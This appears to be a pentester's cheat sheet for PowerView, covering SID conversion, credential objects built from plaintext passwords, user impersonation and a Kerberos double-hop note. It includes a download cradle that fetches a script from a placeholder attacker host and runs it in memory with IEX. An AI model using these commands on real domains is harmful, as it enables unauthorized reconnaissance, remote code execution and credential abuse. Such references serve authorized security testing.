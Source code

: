 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## Convert from SID
```powershell
Convert-ADName -ObjectName <sid>
```

## Convert to SID
```powershell
ConvertTo-SID -Name <name>
```

## load from remote
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Use different credentials (-Credential)
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
<command> -Credential $Cred
```

## Impersonate a user
if running in -sta mode, impersonate another credential a la "runas /netonly"

Invoke-RevertToSelf to leave
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```


## double hop problem
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
klist will return
    Client: backupadm @ legalcorp.local
    Server: academy-aen-ms0$ @
instead of
    Client: backupadm @ legalcorp.local
    Server: krbtgt/legalcorp.local @ legalcorp.local
```
```


